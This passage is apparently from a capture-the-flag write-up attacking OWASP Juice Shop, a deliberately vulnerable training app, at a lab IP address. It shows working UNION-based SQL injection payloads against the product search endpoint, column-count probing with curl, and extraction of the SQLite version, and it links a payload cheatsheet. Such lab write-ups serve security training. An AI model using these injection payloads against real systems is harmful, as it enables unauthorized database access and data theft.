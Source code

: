 Now we now that the backend is a SQLite database. Let's try to find the tables.

If we request `http://10.10.86.91/rest/product/search?q=oops')) union select 1--`, we have the following output:

~~~
OWASP Juice Shop (Express ~4.16.4)
500 SequelizeDatabaseError: SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns

       at Query.formatError (/home/ubuntu/juice-shop_8.2.0/node_modules/sequelize/lib/dialects/sqlite/query.js:423:16)
       at afterExecute (/home/ubuntu/juice-shop_8.2.0/node_modules/sequelize/lib/dialects/sqlite/query.js:119:32)
       at replacement (/home/ubuntu/juice-shop_8.2.0/node_modules/sqlite3/lib/trace.js:19:31)
       at Statement.errBack (/home/ubuntu/juice-shop_8.2.0/node_modules/sqlite3/lib/sqlite3.js:16:21)
~~~

Not the same number of results columns? OK, let's increment until we find the right number:

* `http://10.10.86.91/rest/product/search?q=oops')) union select 1--`
* `http://10.10.86.91/rest/product/search?q=oops')) union select 1,2--`
* `http://10.10.86.91/rest/product/search?q=oops')) union select 1,2,3--` 
* ...
* `http://10.10.86.91/rest/product/search?q=oops')) union select 1,2,3,4,5,6,7,8--`

~~~
$ curl -s "http://10.10.86.91/rest/product/search?q=oops%27))%20union%20select%201,2,3,4,5,6,7,8--" | python -m json.tool
{
    "status": "success",
    "data": [
        {
            "id": 1,
            "name": 2,
            "description": 3,
            "price": 4,
            "image": 5,
            "createdAt": 6,
            "updatedAt": 7,
            "deletedAt": 8
        }
    ]
}
~~~

See [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) for a cheatsheet about SQLite injections.

We can get the SQLite version:
~~~
$ curl -s "http://10.10.86.91/rest/product/search?q=oops%27))%20union%20select%201,2,3,4,5,6,7,sqlite_version();--" | python -m json.tool
{
    "status": "success",
    "data": [
        {
            "id": 1,
            "name": 2,
            "description": 3,
            "price": 4,
            "image": 5,
            "createdAt": 6,
            "updatedAt": 7,
            "deletedAt": "3.24.0"
        }
    ]
~~~